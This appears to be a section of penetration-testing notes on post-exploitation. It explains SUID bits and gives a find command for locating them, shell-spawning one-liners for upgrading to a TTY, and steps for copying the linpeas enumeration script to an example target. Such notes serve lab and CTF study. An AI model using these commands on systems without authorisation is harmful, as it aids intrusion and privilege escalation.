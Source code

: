 # 4 Post Exploit

## SUID bits

![SUID](_suid.png)

| Permission | On Files                                                      | On Directories                                           |
|------------|---------------------------------------------------------------|----------------------------------------------------------|
| SUID Bit   | User executes the file with permissions of the file owner     | -                                                        |
| SGID Bit   | User executes the file with the permission of the group owner | File created in directory gets the same group owner      |
| Sticky Bit | No meaning                                                    | Users are prevented from deleting files from other users |

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: ```find / -perm -u=s -type f 2>/dev/null```

## Get a TTY Shell

If you get shell without TTY, here are some commands you can try to fix this.

Choose an option based on the what is installed on the system:

- Bash```echo os.system('/bin/bash')``` or```/bin/sh -i```
- Python: ``` python -c 'import pty; pty.spawn("/bin/sh")'```
- Perl: ```perl —e 'exec "/bin/sh";'``` or```perl: exec "/bin/sh";```
- Lua: ```lua: os.execute('/bin/sh')```
- Ruby: ```ruby: exec "/bin/sh"``` or from within Interactive Ruby Shell```exec "/bin/sh"```
- Vi from within vi```:!bash``` or ```:set shell=/bin/bash:shell```
- nmap interactive mode: ```!sh```

## System analysis

### PEASS

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

#### Linpeas

Download linpeas and copy it target e.g. 10.10.112.131

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh user@10.10.112.131:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```

#### Winpeas

TODO